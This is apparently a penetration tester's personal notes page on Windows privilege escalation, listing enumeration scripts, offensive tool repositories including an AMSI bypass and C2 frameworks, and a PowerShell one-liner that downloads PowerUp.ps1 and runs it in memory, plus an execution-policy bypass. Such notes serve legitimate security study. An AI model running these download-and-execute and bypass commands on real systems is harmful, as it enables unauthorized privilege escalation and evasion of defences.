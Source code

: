 # Windows PrivilegeEscalation
For [[Windows-File-Transfers]]
For [[WMIC-Commands]]
For [[Windows-CLI-cmd]]
For [[PrivEsc-Important-Windows-Locations]]
For [[Powershell-versions]]
Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer!

## Manual Enumeration 
For manual enumeration see [[Windows-Privilege-Escalation-Enumeration]]


## Scripts
```
https://github.com/carlospolop/PEASS-ng
https://github.com/Tib3rius/windowsprivchecker
https://github.com/gladiatx0r/Powerless.git # For OSCP & Legacy Windows System
https://github.com/411Hall/JAWS	
jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

## Tools
[[Impacket-Cheatsheet]]
[[Seatbelt-Helpsheet]]

[Empire](https://github.com/BC-SECURITY/Empire) is C2 covered here: [[Empire]] and [[Starkiller]]
```
https://github.com/bitsadmin/nopowershell  
https://github.com/rasta-mouse/AmsiScanBufferBypass  
https://github.com/cobbr/InsecurePowerShell  
https://github.com/BC-SECURITY/Starkiller  
https://github.com/besimorhino/powercat
```

For [wesng](https://github.com/bitsadmin/wesng) check usage for [[WESNG-Helpsheet]]

[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is a github repos that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 

The below will load the PowerUp script into memory of a pwoershell shell, then use [[PowerSploit-PowerUp-Helpsheet]], from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
powershell.exe -ExecutionPolicy Bypass -File .\
```

### Arch before making shells!
Careful of x64,x32,x86_64 etc funtimes with windows!
